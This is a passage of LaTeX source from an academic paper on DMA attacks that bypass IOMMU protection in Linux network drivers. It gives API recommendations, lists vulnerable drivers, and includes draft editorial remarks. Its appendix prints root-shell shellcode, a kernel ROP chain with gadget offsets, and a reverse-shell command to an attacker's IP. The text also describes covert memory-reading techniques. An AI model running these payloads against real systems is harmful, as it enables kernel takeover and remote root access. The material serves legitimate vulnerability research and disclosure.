%DMA attacks are feasible and should not be treated lightly. IOMMU subverting attacks are avoidable, but none of the solutions can be found in the wild. Better kASLR, NX-BIT and better API are all needed to prevent IOMMU subverting techniques. 
Its important to note, that no DMA attack could work without sub-page vulnerability; the unintentional exposure of restricted fields. Working on the various attacks, we have noticed that, with the existing API used for I/O operations it is very difficult not to create a sub-page vulnerability. The \textit{dma\_map\_single} call asks the caller for a pointer and a length; this API insinuates that only the mapped bytes will be exposed; we know this to be untrue. The \textit{dma\_unmap\_single}, insinuates that the buffer will not be accessible to the device after the call; this is also untrue, both due to deferred protection and sub-page vulnerabilities. To a lesser degree, the \textit{build\_skb} is also dangerous. This call allows building an \skb around an arbitrary buffer. This is dangerous, because this seems to encourage building an \skb around a dma mapped buffer; exposing \shinfo. In fact, we were looking for this function when working on a list of vulnerable device drivers. We contend, that a better API would lead to a better code. Using the staunch, \textit{dma\_\{un\}map\_page} or using tools like \textit{dma\_page\_pool}. \textcolor{magenta}{Or even complete solutions not unlike what was proposed in DAMN\cite{MSMT18,MMT16}; - To much?} provides the driver authors with better options for writing secure and performant drivers. 

%\subsection{Mitigations in the wild}
%\textcolor{magenta}{I imagine a table with OS on Y and best practices on X. IOMMU policy, KASLR, NX-bit, discriminate mapping (R or W, not both), device IOVA separation, sand boxing mapped addresses. Kernels Win,MacOS,FreeBSD - use NDSS paper, contribution: ESX (Need to send some emails), Linux - Ubuntu versions, Sless?(RHEL)}.


\textcolor{blue}{
Our actionable conclusions:
\begin{enumerate}
    \item Static code analysis for DMA vulnerabilities.
    \item Remove DMA Mapping API, adopt DAMN instead. \label{act:damn}
    \item Remove mixed linear/non-linear skbs, add checks into \shinfo API.
    \item Better API is needed for I/O operations
    \begin{itemize}
        \item I/O buffer creation, discourage bad habits (build\_skb).
        \item Remove dma\_map\_single (Or adopt \ref{act:damn})
        \item Better memory allocation - namely I/O buffers like page\_frag, page\_pool or DAMN.
    \end{itemize}
\end{enumerate}
\texttt{All DMA attacks steam from this vulnerability.}
}

It is important to note, that a DMA-page pool mechanism is not an inherently bad idea when implemented with caution\cite{MSMT18}. 

\bibliographystyle{plain}
\bibliography{references}
\appendix

\clearpage

\section{Shell Code}\label{apx:shellcode}

To open the new shell, we use a Linux kernel functionality allowing the spawning of user processes with root privileges. It is possible to both lunch a local shell with root access using,
 $$\textbf{\nobreak ``/sbin/getty -aroot tty9''},$$
and open a remote shell, providing root access to a remote user with,
$$\textbf{\nobreak ``/bin/bash -c /bin/bash$>$\&/dev/tcp/{\normalfont \emph{attacker's IP}}/{\normalfont \emph{port}}$<$\&1''}.$$

\begin{figure}[h]
        \begin{verbatim}
;push ``/sbin/getty -aroot tty9''
mov  rax, 0x003979747420746f
push rax
mov  rax, 0x6f72612d20797474
push rax
mov  rax, 0x65672f6e6962732f
push rax

xor  rdi, rdi
mov  rsi, rsp
xor  rdx, rdx
mov  rax, <argv_split>
call rax

mov  rdi, qword [rax]
mov  rsi, rax
xor  rcx, rcx
mov  rax, <call_usermodehelper>
call rax

pop  rax
pop  rax
pop  rax
ret
        \end{verbatim}
        \caption{Shell code for spawning a new local root shell.}
        \label{fig:shellcode_1}
\end{figure}




\begin{figure}[b]
\begin{adjustbox}{width=\linewidth}
        \begin{lstlisting}[
        basicstyle = \footnotesize,
        columns = fullflexible,
        %frame = l,
        language = C
        ]
KERNEL_BASE := 0xffffffff81000000; // patch using leaked pointers
ATTACK_PAGE := 0xffff880043430000; // arbitrary selected address

// Fake ubuf_info structure, starting with the callback pointer.
// This is the entry point of the attack.
page[0x000] = KERNEL_BASE + 0x6b511d; // call qword ptr[rdi + 0x3b0]

// pivoting code
page[0x3B0] = KERNEL_BASE + 0x1091fd; // mov rax, qword ptr [rdi + 0x68] ;
                                            // mov rbp, rsp ; call qword ptr [rax]
page[0x068] = &ATTACK_PAGE[0x100];
page[0x100] = KERNEL_BASE + 0x2499c1; // mov rax, qword ptr [rax + 0x38] ;
                                            // call qword ptr [rax + 0x28]
page[0x138] = &ATTACK_PAGE[0x200];
page[0x228] = KERNEL_BASE + 0x16fab6;   // mov rbx, qword ptr [rax + 8] ;
                                            // mov rdi, rax ; call qword ptr [rax]
page[0x208] = &ATTACK_PAGE[0x210];
page[0x210] = KERNEL_BASE + 0x1319ee; // push rax; jmp qword ptr[rcx]
page[0x200] = KERNEL_BASE + 0x2499c1; // mov rax, qword ptr [rax + 0x38] ;
                                            // call qword ptr [rax + 0x28]
page[0x238] = &ATTACK_PAGE[0x300];
page[0x328] = KERNEL_BASE + 0x2ccb61; // mov rcx, qword ptr[rax + 8] ;
                                            // mov rdi, rax; call qword ptr[rax]
page[0x308] = &ATTACK_PAGE[0x310];
page[0x310] = KERNEL_BASE + 0x159c86; // pop rsp ; ret
page[0x300] = KERNEL_BASE + 0x20fb7b; // mov rax, qword ptr[rax + 0x30] ;
                                            // mov r8, qword ptr[rax + 0x40] ;
                                            // call qword ptr[rbx]

page[0x330] = &ATTACK_PAGE[0xF68]; // our new stack :)

// ``/sbin/getty -aroot tty9''
page[0x400] = 0x65672f6e6962732f;
page[0x408] = 0x6f72612d20797474;
page[0x410] = 0x003979747420746f;

// helping pointers
page[0x500] = KERNEL_BASE + 0x0d7b05; // pop rsi; ret
page[0x508] = KERNEL_BASE + 0x12dacd; // pop rdi; ret

// stack
page[0xF68] = KERNEL_BASE + 0x0d7b05; // pop rsi; ret
page[0xF70] = &ATTACK_PAGE[0x400];
page[0xF78] = KERNEL_BASE + 0x12dacd; // pop rdi; ret
page[0xF80] = 0;
page[0xF88] = KERNEL_BASE + 0x11bac2; // pop rdx ; ret
page[0xF90] = 0;
page[0xF98] = KERNEL_BASE + 0x3a00d0; // &argv_split
page[0xFA0] = KERNEL_BASE + 0x005dfc; // pop rcx ; ret
page[0xFA8] = &ATTACK_PAGE[0x500];
page[0xFB0] = KERNEL_BASE + 0x1319ee; // push rax; jmp qword ptr[rcx]
page[0xFB8] = KERNEL_BASE + 0x5822a2; // mov rax, qword ptr [rax] ; ret
page[0xFC0] = KERNEL_BASE + 0x005dfc; // pop rcx ; ret
page[0xFC8] = &ATTACK_PAGE[0x508];
page[0xFD0] = KERNEL_BASE + 0x1319ee;// push rax; jmp qword ptr[rcx]
page[0xFD8] = KERNEL_BASE + 0x005dfc;// pop rcx ; ret
page[0xFE0] = 0;
page[0xFE8] = KERNEL_BASE + 0x0896a0; // &call_usermodehelper
page[0xFF0] = KERNEL_BASE + 0x4c0f0e; // xor rax, rax ; ret
page[0xFF8] = KERNEL_BASE + 0x003795; // leave ; ret
        \end{lstlisting}
\end{adjustbox}
        %\vspace{-5mm}
        \caption{
                ROP attack to open a remote shell on the attacker's machine. The pivoting code uses \texttt{rdi} register, which points to the page, providing the \kva.}
        \label{fig:shellcode_2}
\end{figure}



%The following command opens a remote shell on the attacker's machine.

%This shellcode size is less than 100 bytes, which means that it fits into a single writable page. We used the same page where the initial attack took place, when possible. Finally, for all attacks, 
%we validated that the shellcode was able to run when the computer is locked, successfully showing a gaining access scenario as well. 
%We also implemented improved versions of this shellcode: We implemented a ROP payload based on this shellcode in order to bypass DEP protection. For the basic case, we implemented both the ROP and the regular version using fixed kernel pointers (e.g., function calls). When kASLR was enabled, we patched the payload during attack execution. Lastly, we replaced the string \textbf{\nobreak ``/sbin/getty -aroot tty9''}, which opens a local shell, with the string \textbf{\nobreak ``/bin/bash -c /bin/bash$>$\&/dev/tcp/{\normalfont \emph{attacker's IP}}/{\normalfont \emph{port}}$<$\&1''}, which opens a remote shell on the attacker's machine. We used port 80 (HTTP) in order to bypass firewalls, but any port could be used.


%In (Fig. \ref{fig:shellcode_2} we show a ROP attack, based on the same Linux functionality to open a remote shell on the attacker's machine.

%

%\textbf{\nobreak ``/bin/bash -c /bin/bash$>$\&/dev/tcp/{\normalfont \emph{attacker's IP}}/{\normalfont \emph{port}}$<$\&1''},

%We implemented ROP payloads based on the shellcode used in the basic case (\ref{fig:shellcode_1}), showing that DEP could not prevent the attack. Using the ROP gadget tool1\footnote{https://github.com/JonathanSalwan/ROPgadget}, we searched Linux kernel binaries for gadgets that together achieve the same logic as the original shellcode. When we implemented the attack, we took advantage
%of the common practice of passing a ‘this’ pointer to a callback as the first parameter. According to the System V AMD64 ABI calling conventions (which Linux follows), the first parameter is passed in the rdi register, so the pivoting code can use it to find the new stack. Without it, we could not find the stack.
%We implemented two different versions, one for FireWire and one for NICs (Fig \ref{fig:shellcode_2}), of the ROP payloads. One minor difference between the versions is that in the network cards case, we used a modified OS and hence the binary was different. The more important difference is that in the NICs case, the callback was not pointed directly from the writable structure but had another level of indirection. As a result, the attacker could choose the address of the structure holding the callback and control rdi. This is essential for payload spraying, because the stack lies in the sprayed page, which has an arbitrary address. In the FireWire case, rdi is always pointing to the attacked sbp2 management orb, forcing the stack to be in the same page.

%\newpage
\section{Driver lists}
These lists are based on Linux kernel 5.0. 
\subsection{drivers - DMA\_BIDIR}
\begin{enumerate}
    \item bnxt
    \item cxgb4
    \item dpaa2
    \item i40e
    \item ixgbe
    \item mlx4
    \item mlx5 - Driver safe
    \item myri10ge
    \item qede
    \item ti
    \item ath9k - EDMA
    \item iwlwifi
\end{enumerate}
\subsection{Wrong Unmap order}{\label{apndx:wrong_order}}
A partial list of drivers that dont unmap the RX buffer or do it \textbf{after} initialising the \shinfo.
\begin{itemize}

    \item Intel 40GbE NIC driver : i40e
    \item Mellanox Connectx 5/6 : mlx5\_core\footnote{mlx5\_core has two modes, linear and non-linear. Linear mode is the default}
\end{itemize}
\subsection{Correct unmap order}
{\label{apndx:correct_order}}
A partial list of drivers that unmap the RX buffer before initialising the \shinfo 
\begin{itemize}
    \item Broadcom : bnx2
\end{itemize}

%\clearpage
%\section{Additional Compound attacks}\label{appx:additional_compound}

\subsection{\textcolor{red}{\textbf{eXpress Data Path}}}\label{sec:xdp}

eXpress Data Path (XDP)~\cite{xdp} provides a way for users to add custom handling to RX buffers with little overhead. Common use cases include DDOS mitigation, forwarding and load balancing. To support the latter, the RX buffers are mapped with BIDIRECTIONAL access to the NIC. 

The tg3 driver does not support XDP. XDP support is usually added to high-speed NICs, such as ConnectX-4 (mlx5\_core). Accordingly, in this attack, we focus on the mlx5\_core driver, which, as mentioned in Sec, \ref{sec:forward}, does not unmap the RX buffers and reuses the pages using the page\_pool mechanism \cite{page_pool}. Subsequently, these pages are never unmapped, and remain accessible to the device for both reading and writing. 

The fact that the NIC has both read and write access to \shinfo, allows the NIC to execute an attack in 4 steps (Fig. \ref{fig:gro_xdp}):
\begin{enumerate}
    \item An RX TCP packet is generated. Then, the \shinfo{} is initialised by the driver and the \texttt{frags} are filled with NULL pointers. Finally, the packet is handed to the next layer.
    
    \item A second RX \skb{} is generated as part of the same TCP stream, initialized and also handed to the next layer.
    
    \item Both packets reach the GRO layer. Then, the second \skb{} is coalesced with the first packet, the \skb{} is freed and the \data{} is added as a \texttt{frag} to the first \skb.
    
    \item The NIC reads the updated \texttt{frag} field and translates the \page{} address to a valid \kva{}. Finally, the device fills the \texttt{destructor\_arg} field, creating a poisoned \skb{} (Fig. \ref{fig:sh_info}).
\end{enumerate}

The difference between this flow and a regular receive flow is the additional read capability the NIC has due to XDP. That is, the last step, where \kva is obtained, is possible only due to the additional READ access.

\smallskip
\noindent\textbf{Remark.} Other drivers that have XDP support, also tend to map RX buffers with BIDIRECTIONAL (e.g., bnxt, i40e, mlx4\_en). Interestingly, the mlx5\_core driver has two modes of operation: (1) linear - where an skb is built around an RX buffer and, (2) non-linear where the driver is filling up the \texttt{frags} of \shinfo, which was never mapped. The former is the default, and the later is actually secure. The non-linear mode is secure because \shinfo{} is \emph{never} accessible to the device. Thus the NIC never gains the oportunity to attack.

\begin{figure*}[t]
    \centering
    
\includegraphics[width=\linewidth]{figs/gro.pdf}
    \caption{An RX \skb{} after GRO provides the \kva{} for a DMA attack.}
    \label{fig:gro_xdp}
\end{figure*}

\subsection{\textcolor{red}{\textbf{Forward Thinking}}}\label{sec:forward}

Packet forwarding is a standard Linux feature that allows a Linux machine to serve as a router or a load balancer. Packet forwarding functionality is usually disabled by default on Linux servers.

When this functionality is enabled, the NIC can independently generate an RX packet to a legitimate destination. This packet will then be forwarded to become a TX packet. However, unlike in the TCP layer that usually creates \skb{} packets with fragments, both the tg3 and the mlx5\_core drivers, usually create a linear \skb{}.

Namely, the drivers do not fill the \texttt{frags}, which the attacker uses to obtain a \kva. Both drivers, use the \\\texttt{napi\_gro\_receive} function to pass the \skb{} to the upper layer (this is the standard for most NIC drivers\footnote{Used by 98 NIC drivers, in Linux 5.0}). 

In this case, the upper layer is the Generic Receive Offload (GRO) layer \cite{gro}. GRO attempts to aggregate multiple TCP segments into a single large packet. Specifically, GRO converts multiple linear \skb{} buffers (belonging to a single TCP stream) into a single \skb{} with multiple fragments. This \skb{} then traverses the Linux network stack and becomes a TX packet. The attacker can use this TX packet as described in the previous attack (Fig. \ref{fig:payload}).

Packet forwarding, also opens up an additional attack option. An attacker might be interested in persistent surveillance rather than overtaking the machine. 

Packet forwarding allows the NIC to inspect arbitrary pages at will. 
Instead of sending a TCP packet and letting the GRO layer fill in the \texttt{frags} information, the NIC can generate a small UDP packet and fill in the \texttt{frags} array with any arbitrary \page{} addresses within the system. This results in the mapping of these pages by the driver, providing READ access to any page in the system to the NIC. Both the mlx5\_core and tg3 drivers map all the frags in \shinfo{} without verifying the actual packet length.

To avoid detection and, more importantly, preserve OS stability, the device must undo the changes to \shinfo{} before creating a TX completion. That is, before letting the CPU know that the packet was sent and its buffer can now be freed. Otherwise, the OS will try freeing the pages, indicated by \shinfo.

\smallskip
\noindent\textbf{Remark.} Having an accomplice in the form of an unprivileged user provides an additional vectors of attack. In addition to running ROP attacks, the NIC can also leak the content of arbitrary memory pages to the user. Assuming that the NIC has WRITE access to \shinfo{} after it has been sent up the network stack (for example, in case of deferred protection or when page\_pool is used, Sec. \ref{sec:xdp}), the NIC can modify the \page{} address in the \texttt{frag} entries, letting the Linux network stack copy the context of arbitrary memory pages to an unprivileged user. A likely side effect of this attack is memory corruption and Kernel panic, so caution is advised. The reason being, that the \texttt{skb\_free} function attempts to free pages never owned by the network stack.

%%%%%%%%%%%%%%%%%%%%%%%%%

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\end{document}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
